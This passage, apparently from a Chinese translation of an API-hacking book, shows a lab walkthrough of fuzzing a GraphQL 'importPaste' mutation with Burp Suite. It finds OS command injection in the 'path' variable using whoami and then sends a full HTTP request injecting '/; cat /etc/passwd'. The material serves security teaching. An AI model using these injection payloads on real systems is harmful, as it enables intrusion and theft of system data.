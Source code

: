 图 14-14：对主机变量攻击的入侵者结果

我们将使用与第一次攻击相同的有效载荷。正如你在图 14-15 中看到的，我们不仅收到了各种响应代码和长度，还收到了成功执行代码的指示。

![Burp Suite 中模糊测试结果的截图，显示包含来自 GraphQL 查询返回的数据的响应体](img/F14015.png)

图 14-15：对 `"path"` 变量攻击的入侵者结果

通过查看响应，你可以发现其中有几个响应容易受到 `whoami` 命令的影响。这表明 `"path"` 变量容易受到操作系统注入的攻击。此外，命令返回的用户是特权用户 `root`，这表明该应用程序正在运行在 Linux 主机上。你可以更新你的第二组有效载荷，包含 Linux 命令 `uname -a` 和 `ver` 来查看你正在与哪个操作系统进行交互。

一旦你发现了操作系统，你就可以进行更有针对性的攻击，以获取系统中的敏感信息。例如，在列表 14-3 中显示的请求中，我将`"path"`变量替换为`/; cat /etc/passwd`，这将尝试让操作系统返回包含主机系统账户列表的*/etc/passwd*文件，如列表 14-4 所示。

```
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json
`--snip--`

{"variables": {"scheme": "http",
"path": "/ **;** **cat /etc/passwd",**
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n        importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n          result\n        }\n      }"}
```
